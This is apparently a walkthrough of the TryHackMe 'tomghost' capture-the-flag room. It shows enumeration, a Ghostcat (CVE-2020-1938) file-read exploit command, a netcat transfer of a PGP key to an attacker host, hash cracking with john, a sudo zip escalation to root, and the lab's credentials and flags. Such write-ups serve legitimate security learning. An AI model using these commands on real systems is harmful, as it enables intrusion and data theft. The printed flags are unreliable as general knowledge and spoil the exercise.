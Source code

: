 # Task 1 - Flags

## Enumeration

sudo nmap -sV -sC -T5 -p- 10.10.174.26 -oN \~/Github/tomghostCTF/nmapscan.md

gobuster dir -u http://10.10.174.26:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 60 -q

Based on the nmap scan we can see there are 2 apache ports that are open that are on odd port numbers Tomcat is on 8080 and Jserv is on port 8009

With the gobuster scan on 8080 we can find a /manager directory

I was not able to find anything useful in the tomcat apache server. I started researching Apache Jfserv and came across CVE-2020-1938 which was a local file inclusion exploit so I tried that, I was also able to find a github repo with the python file https://github.com/00theway/Ghostcat-CNVD-2020-10487.git

python3 ajpShooter.py http://10.10.174.26 8009 /WEB-INF/web.xml read

after running the exploit we were able to get a user and a password, I thought it might be hashed but this was the actual password

![user](user.png)

skyfuck:8730281lkjlkjdqlksalks

With these credentials we are able to log in to SSH on port 22.

Then we are able to move over to the user directory for merlin and find the user.txt file

![flag](flag.png)

user.txt:THM{GhostCat_1s_so_cr4sy}

we are not able to run sudo as the skyfuck user but we do have a tryhackme.asc and credential.gpg file in the skyfuck directory.

We can transfer the .asc file with nc 10.13.16.145 443 < tryhackme.asc on the remote host while also having a listener on our local machine with nc -lvnp 443 >tryhackme.asc

now we can run gpg2john tryhackme.asc > hash to decrypt the file into a crackable hash and export that to a file called hash

Now with this file we can try to crack it with the following command john --wordlist=/usr/share/wordlists/rockyou.txt hash

![password](password.png)

once we decrypt the private key file we can use the password to decrypt the encrypted credential.pgp file on the remote host.

![hash](hash.png)

Once we do so we get the password for merlin, which apparently is very long.

Now we can change users into the merlin user, and since merlin is able to use sudo we can run sudo -l and see what files this user has access to.

The user is able to run zip as sudo so I went back to GTFOBins to see if there is any exploit for zip.

![zip](zip.png)

We were able to find an exploit with zip and use that to spawn an escalated shell

![root](root.png)

Now we can go to the /root directory and find the flag.

root.txt:THM{Z1P_1S_FAKE}

For this room we were able to exploit a LFI vulnerability to gain inital access then decrypt a pgp private key to gain access to another user that then had the ability to run zip with sudo which we exploited to gain a root shell and find the root flag.